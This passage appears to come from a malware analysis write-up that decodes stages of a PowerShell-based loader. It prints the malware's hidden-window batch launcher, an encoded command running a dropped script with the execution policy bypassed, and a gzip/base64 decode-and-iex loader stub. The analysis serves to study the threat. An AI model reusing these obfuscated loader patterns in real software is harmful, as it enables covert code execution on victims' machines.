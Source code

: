 If we decode the content of the file which is defined in the first variable of part 2, we get the following Batchfile:

```bash
@echo off
sTart /mIn PowerShELL -W H -e JABPAFoAVAB0AHYAZABmAE8AYgBsAFcAZgBUAGYAZQBN
AEgAUgB1AFIAPQAnAFMAUABmAE8ATQBMAFIAUgBRAHEA
UwBSAG0AVABIAHkAVgBYAHEARgAnADsAUABvAHcAZQBy
AFMAaABlAGwATAAgAC0ARQBYAGUAQwAgAGIAeQBQAGEA
UwBTACAALQBmAEkATABFACAAIgAkAGUAbgB2ADoATABP
AEMAQQBMAEEAUABQAEQAQQBUAEEAXABPAGgAaQBVAGMA
QgBnAG8AbQBXAEgAZgBzAGwAYgB0AFoAcABlAGkASQBk
AGkAQwBDAEcAYgBLAC4AcABzADEAIgAgADsAJAB4AFAA
WQBmAFcAZgBCAGsAbgBmAHQARABVAEcAZwB5AHUARgBn
AGsAPQAnAEwATwB4AGwAVABFAHMAegBYAGcAcQBqAGIA
cABVAEQAcQB6AHMAaAAnAA==
```

### Stage-2: Summary

All Stage-2 does for now, Is create a new Batchfile named YpQmiddAQsKVPSrAUPXz.bat which itself executes a base64 encoded PowerShell command.

## Stage-3: PowerShell takes over

I now decoded the base64 powershell command from stage-2 and got the following:

```bash
$OZTtvdfOblWfTfeMHRuR='SPfOMLRRQqSRmTHyVXqF'
PowerShelL -EXeC byPaSS -fILE "$env:LOCALAPPDATA\OhiUcBgomWHfslbtZpeiIdiCCGbK.ps1"
$xPYfWfBknftDUGgyuFgk='LOxlTEszXgqjbpUDqzsh'
```

The first and last line is trash since it does nothing useful. But then we can see that it calls a new PowerShell instance and runs the stage-3 loader ```%LOCALAPPDATA%\OhiUcBgomWHfslbtZpeiIdiCCGbK.ps1```

### Stage-3: Some Wiping and some Cleansing

Now we know, that the Batchfile of Stage-2 loads a Stage-3 PowerShell file and executes that in a new thread. I had to now go on and analyse the actual Stage-3 PowerShell payload.

The Stage-3 payload is similar to Stage-1 as you can see:

```bash
$encoded = "HUGEEEE_BASE64_BYTEARRAY"

function IYZmCyxvPaAUSTYsp ([byte[]]$deWlsCoSHTEqPgBbm) {
    $oISstSNlasZYtDtCm = [Io.memORysTREaM]::nEW($deWlsCoSHTEqPgBbm)
    $PWTfQWlTvftEzuzsf = [iO.cOMprEsSiOn.GzIPstReaM]::neW($oISstSNlasZYtDtCm, [iO.cOMpRESSioN.coMprESSIoNmOdE]::decompResS)
    $eQaxkMIARKOuOPLoc = [IO.MemoRYStrEam]::nEW()
    $PWTfQWlTvftEzuzsf.CopyTo($eQaxkMIARKOuOPLoc)
    $eQaxkMIARKOuOPLoc.ToArray()
}
$ReIHYmhYynUgayafN = [text.enCOdINg]::utF8.gEtSTRIng((IYZmCyxvPaAUSTYsp ([CONvErT]::FrOmBasE64StRInG($wRLgpSasLWRvcsBqR)))).TrimEnd("`0")
iex $ReIHYmhYynUgayafN
```
